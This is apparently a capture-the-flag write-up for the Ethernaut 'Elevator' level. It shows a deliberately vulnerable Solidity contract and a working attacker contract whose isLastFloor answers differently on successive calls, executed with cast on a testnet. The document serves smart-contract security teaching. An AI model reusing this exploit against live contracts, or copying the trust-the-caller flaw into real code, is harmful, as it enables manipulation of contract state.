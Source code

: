 ```yaml
---
title: "Elevator"
tags: ["Stateful function"]
reference: https://ethernaut.openzeppelin.com/level/11
---
```


# Description

This elevator won't let you reach the top of your building. Right?

Things that might help:

- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

# Solution

1. the `Elevator`'s `goTo` function will use the `Building` contract from message sender. So the message sender can write its own `isLastFloor` function logic.

2. Deploy Building contract

```sol
interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    mapping(uint256 => uint256) floorCount;

    function isLastFloor(uint256 _floor) public returns (bool) {
        floorCount[_floor] += 1;
        return floorCount[_floor] % 2 == 0;
    }

    function goTo(address victim, uint256 _floor) public {
        IElevator(victim).goTo(_floor);
    }
}
```

This `isLastFloor` function can make the return of first call to be `false`. So we can enter into the if statement. Also, the the return of second call to be `true`. So the `top = true`.

```sol
if (!building.isLastFloor(_floor)) { // first call
    floor = _floor;
    top = building.isLastFloor(floor); // second call
}
```

3. call `Building` contract's `goTo` function

```
cast send 0x68FC859Eaed8AC890fe3cD8A941b30B9b00AcFbF "goTo(address, uint256)" 0x09eD9E43AeeACF4533B8BF04906A4C50230726A2 100 --rpc-url $BASE_SEPOLIA_RPC
```

4. check the Elevator's state variables

```
await contract.floor()
i {negative: 0, words: Array(2), length: 1, red: null}length: 1negative: 0red: nullwords: (2) [100, empty][[Prototype]]: Object
await contract.top()
true
```
